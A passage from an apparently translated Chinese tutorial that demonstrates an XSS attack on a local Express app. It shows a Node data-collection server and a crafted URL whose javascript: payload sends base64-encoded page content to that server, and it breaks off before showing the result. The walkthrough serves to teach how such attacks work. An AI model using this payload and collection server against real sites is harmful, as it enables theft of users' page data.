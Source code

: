 此攻击的流程是首先创建恶意数据收集服务器，然后向网页中注入脚本以获取信息并将其转发给数据收集服务器。

为了演示这一点，我们首先需要使用以下步骤创建数据收集服务器：

1.  仍在`express-xss`目录中时，创建一个名为`colletion-server.js`：

    ```js
    $ touch collection-server.js
    ```

    的文件
2.  然后，将以下代码添加到`collection-server.js`：

    ```js
    require("http")
      .createServer((req, res) => {
        console.log(
          req.connection.remoteAddress,
          Buffer.from(req.url.split("/attack/")[1], 	"base64").toString().trim()
        );
      })
      .listen(3001, () => {
        console.log("Collection Server listening on port 	3001");
      });
    ```

3.  现在，我们可以启动数据采集服务器：

    ```js
    $ node collection-server.js
    Collection Server listening on port 3001
    ```

4.  在第二个终端窗口中，重新启动`fixed-server.js`文件：

    ```js
    $ node fixed-server.js
    Server listening on port 3000
    ```

5.  In your browser window, visit the following URL:

    ```js
    http://localhost:3000/?previous=javascript:(new%20Image().src)=`http://localhost:3001/attack/${btoa(document.getElementById(%22status%22).innerHTML)}`,0/
    ```

    网页看起来应该和以前一样，仍然显示**所有系统都在运行。**消息。但是 XSS 注入已经将**Back**超链接的`href`属性更新为指向以下内容：

    ```js
    javascript:(new Image().src)=``http://localhost:3001/attack/${btoa(document.getElementById(status).innerHTML)}``,0 /
    ```

    该链接以`javascript:`开头，这是一个允许 JavaScript 作为 URI 执行的协议处理程序。单击此链接时，将创建一个 HTML 图像元素（`<img>`，其`src`值设置为数据采集服务器的地址。`btoa()`函数 Base64 对状态值进行编码。将`,0`附加到末尾，以使表达式的计算结果为`false`——确保未渲染图像。

6.  点击**后退**链接，检查数据采集服务器。您将看到状态已收到，如下所示：
